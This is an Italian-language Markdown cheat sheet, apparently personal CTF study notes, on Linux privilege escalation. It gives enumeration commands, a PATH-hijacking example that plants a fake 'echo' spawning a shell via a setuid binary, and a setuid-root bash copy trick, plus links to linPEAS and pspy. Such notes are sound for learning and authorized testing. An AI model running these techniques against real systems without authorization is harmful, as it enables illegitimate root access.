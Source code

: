 # Privilege Escalation 

link utile: https://hacktips.it/guida-privilege-escalation-sistemi-linux/

vedere cosa può fare l'utente come root:
```
sudo -l 
```

vedere cosa può fare l'utente nei gruppi:
```
id 
find / -group <GROUP> 2>/dev/null
```

## setuid program

trovare tutti i file setuid
```
find / -perm -u=s -type f 2>/dev/null
```

setuid eseguibili da un gruppo (o utente)
```
find / -perm -u=s -group <ID> 2>/dev/null
```

cercare file in https://gtfobins.github.io/gtfobins/

se il file esegue un altro programma modificare il path e creare un programma locale con lo stesso nome che fa altro.
esempio programma `./get_flag` che esegue echo:
```
cd /tmp
echo "/bin/bash" > echo
chmod 777 echo
echo $PATH
export PATH=/tmp:$PATH
cd /home/flag
./get_flag
```

### modifica permessi come root
se possiamo modificare i permessi di un file come root allora possiamo:

utente low priv
```
cp /bin/bash .
```

utente root
```
chown root:root bash
chmod 4755 ./bash
```

utente low priv
```
./bash -p
```

## tools
- [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) --> enumerazione per privilege escalation 
- [pspy](https://github.com/DominicBreuker/pspy) --> enumera tutti i processi attivi sul sistema



